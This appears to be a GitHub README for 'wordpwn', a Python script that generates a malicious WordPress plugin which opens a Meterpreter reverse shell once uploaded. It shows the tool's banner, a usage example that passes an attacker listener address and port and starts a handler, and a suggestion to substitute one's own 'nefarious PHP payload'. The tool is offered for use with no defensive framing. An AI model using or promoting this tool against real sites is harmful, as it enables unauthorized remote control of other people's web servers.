 # malicious-wordpress-plugin
Simply generates a wordpress plugin that will grant you a reverse shell once uploaded. I recommend installing Kali Linux, as msfvenom is used to generate the payload.

#### Usage Example
```sh
root@wetw0rk:~# python wordpwn.py 
__        __            _
\ \      / /__  _ __ __| |_ ____      ___ __
 \ \ /\ / / _ \|  __/ _  |  _ \ \ /\ / /  _ \ 
  \ V  V / (_) | | | (_| | |_) \ V  V /| | | |
   \_/\_/ \___/|_|  \__,_| .__/ \_/\_/ |_| |_|
                         |_|


Usage: wordpwn.py [LHOST] [LPORT] [HANDLER]
Example: wordpwn.py 192.168.0.6 8888 Y
```

### How and When do I use this?

Usage is super simple, simply pass wordpwn your listening address and listening port. You are also given the option to start a handler, I recommend that you do... since by default the plugin will be made using a php/meterpreter/reverse_tcp shell. If you have your own nefarious PHP payload simply adjust the script to accept it. If usage is still a mystery to you [JavaRockstar](https://github.com/JavaRockstar) has made a tutorial on his website which can be found here [HackingVision](https://hackingvision.com/2017/04/11/hacking-wordpress-website-malicious-plug/).

### PLEASE READ!
I want to be 100% sure that I give credit to [Rob Carr](https://www.rastating.com/). Rob Carr is the author of the Metasploit module wp_admin_shell_upload, which this script is based on. You can find more information on his module at [Rapid7](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload) .
